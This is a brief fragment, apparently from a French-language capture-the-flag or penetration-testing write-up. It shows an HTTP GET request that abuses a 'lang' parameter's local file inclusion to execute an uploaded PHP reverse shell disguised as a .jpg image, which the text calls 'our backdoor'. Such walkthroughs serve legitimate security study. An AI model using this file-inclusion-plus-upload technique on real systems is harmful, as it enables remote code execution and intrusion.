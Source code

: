![./images/Untitled17.png](./images/Untitled17.png)

```
# Vu que nous sommes dans le même répertoire, il suffira de remonter sur le répertoire d'upload et de sélectionner notre backdoor" **./uploads/reverseShellA.php5.jpg"**
GET /0cdb312366ecf1f493bc83f0fb56adda28125498762f28f1cc40c320300125ce/language.php?lang=**./uploads/reverseShellA.php5.jpg** HTTP/1.1
```
